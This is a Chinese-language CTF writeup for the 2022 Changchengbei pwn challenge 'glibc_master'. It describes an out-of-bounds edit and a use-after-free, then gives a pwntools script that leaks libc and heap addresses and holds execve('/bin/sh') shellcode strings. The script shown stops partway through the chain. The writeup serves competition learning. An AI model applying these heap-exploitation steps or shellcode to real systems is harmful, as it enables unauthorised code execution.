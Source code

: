 ```yaml
---
title: 2022 长城杯 pwn Writeup
date: 2022-08-24 6:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=42/
pin: false
---
```


## glibc_master(house of kiwi/UAF)

![image-20220825085120108](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085120108.png)

题目难点主要是edit功能会对堆内容进行一个加密，show功能有3次的次数限制，第三次会close（1）

![image-20220825085431830](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085431830.png)

漏洞点在edit功能的数组越界，同时dele功能还有个UAF

和这道题后续就基本一样了[2022nssrand4 pwn wp](https://blog.e4l4.com/posts/Nssctfrand4/#做道堆题休息一下吧高版本的小sizeoffbynull)劫持bss段上的stderr，house of kiwi或者house of cat都行

![image-20220825085506825](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085506825.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import binascii
context.arch="amd64"
context.log_level = 'debug'

p = process("./glibc_master")
# p = remote("172.20.5.61","9999")
elf = ELF("./glibc_master")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------


def add(idx,size):
	sla(">>",1)
	sla('input index:',idx)
	sla("input size:",size)

def edit(idx,con):
	content = ''
	sla(">>",2)
	sla('input index:',idx)
	for i in range(len(con)):
	    content += chr(u8(con[i])^u8(string[i]))
	p.sendlineafter("input context:",content)

def show(idx):
	sla(">>",3)
	sla('input index:',idx)

def dele(idx):
	sla(">>",4)
	sla('input index:',idx)

string = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='

add(0,0x440)
add(1,0x440)
dele(0)
add(2,0x450)
show(0)
libc_base = uu64()-0x2190c0
lg('libc_base')

edit(0,'a'*0x10)

show(0)
p.recvuntil('a'*0x10)

heap_base_x= p.recv(6)

content = ""
for i in range(6):
	content += chr(u8(heap_base_x[i])^u8(string[16+i]))

heap_base = u64(content.ljust(8,'\x00'))-0x290

lg('heap_base')

edit(0,p64(libc_base+0x2190c0)*2)

p.interactive()
```

